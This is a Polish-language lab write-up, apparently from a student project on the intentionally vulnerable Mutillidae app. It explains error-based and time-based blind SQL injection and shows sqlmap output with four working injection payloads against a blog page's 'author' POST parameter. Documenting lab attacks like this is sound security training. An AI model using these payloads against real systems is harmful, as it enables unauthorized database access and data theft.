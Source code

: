 ## Nazwa podatności: SQLMAP Practice (SQL Injcetion - error-based oraz time-based blind)

**Istotność:** 10

---

**Opis:**
SQLMap to potężne narzędzie do automatycznego wykrywania i wykorzystywania podatności SQL Injection w aplikacjach internetowych. Jest napisane w języku Python i umożliwia atakującemu przeprowadzenie zautomatyzowanych testów penetracyjnych, identyfikując luki w zabezpieczeniach aplikacji, które mogą prowadzić do wstrzykiwania kodu SQL.

- SQL Injection - error-based:
W tej technice atakujący wykorzystuje błędy generowane przez bazę danych w odpowiedzi na wstrzyknięty złośliwy kod SQL. Atakujący wprowadza manipulujące zapytanie SQL dane, które mogą prowadzić do błędów w bazie danych. Następnie, poprzez analizę odpowiedzi serwera, atakujący jest w stanie uzyskać informacje na temat struktury bazy danych oraz jej zawartości. Na przykład, atakujący może próbować wstrzyknąć zapytanie takie jak SELECT * FROM users WHERE id = '1' AND '1'='1', które zawsze zwraca prawdę, ale prowadzi do błędu, jeśli typ danych jest nieprawidłowy. Analizując komunikaty o błędach, atakujący może wydedukować strukturę bazy danych i uzyskać dostęp do poufnych informacji.

- SQL Injection - time-based blind:

Ta technika jest używana, gdy aplikacja nie zwraca bezpośrednich komunikatów o błędach, ale atakujący jest w stanie dedukować informacje na temat bazy danych poprzez manipulowanie czasem odpowiedzi serwera. Atakujący wstrzykuje złośliwy kod SQL, który opóźnia odpowiedź serwera w zależności od prawdziwości określonego warunku. Na przykład, atakujący może wstrzyknąć zapytanie takie jak SELECT * FROM users WHERE id = '1' AND IF(SUBSTRING(database(),1,1)='a',SLEEP(5),1) - jeśli pierwszy znak nazwy bazy danych to 'a', to zapytanie spowoduje opóźnienie odpowiedzi serwera. Analizując czas odpowiedzi, atakujący jest w stanie wnioskować informacje na temat struktury bazy danych i jej zawartości.

---

**Technika eksploatacji:**
Po wybraniu z listy rozwijanej użytkownika, którego blog chce się zobaczyć wysyłane jest poniższe zapytanie POST na serwer:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/5e298ba7-8a60-47bc-ab5a-d2da964b306b)

Utworzono plik request.txt z zawartością powyższego zapytania.
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/d430c661-7a72-42cf-8d33-dc39255b3728)

Atakowanymi parametrami są oraz `author` oraz `view-someones-blog-php-submit-button`.

Jak poniżej uruchomiono narzędzie sqlmap:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/163e2db8-bdf8-48d3-9057-1086ed0c81ca)

Wykryło ono, iż parametr `author` jest podatnym parametrem. Ostatecznym wynikiem działania programu sqlmap jest:
```sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: author (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: author=admin' AND 2783=2783#&view-someones-blog-php-submit-button=View Blog Entries

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: author=admin' AND (SELECT 9586 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(9586=9586,1))),0x716b706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OhCA&view-someones-blog-php-submit-button=View Blog Entries

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: author=admin' AND (SELECT 3065 FROM (SELECT(SLEEP(5)))GkAB)-- URoT&view-someones-blog-php-submit-button=View Blog Entries

    Type: UNION query
    Title: MySQL UNION query (random number) - 4 columns
    Payload: author=admin' UNION ALL SELECT 5318,5318,5318,CONCAT(0x7176717671,0x654b6f75534a4f4a415a596e4169706d436365645a45524d764b5a5078554c415779684b6b744351,0x716b706b71)#&view-someones-blog-php-submit-button=View Blog Entries
---
```


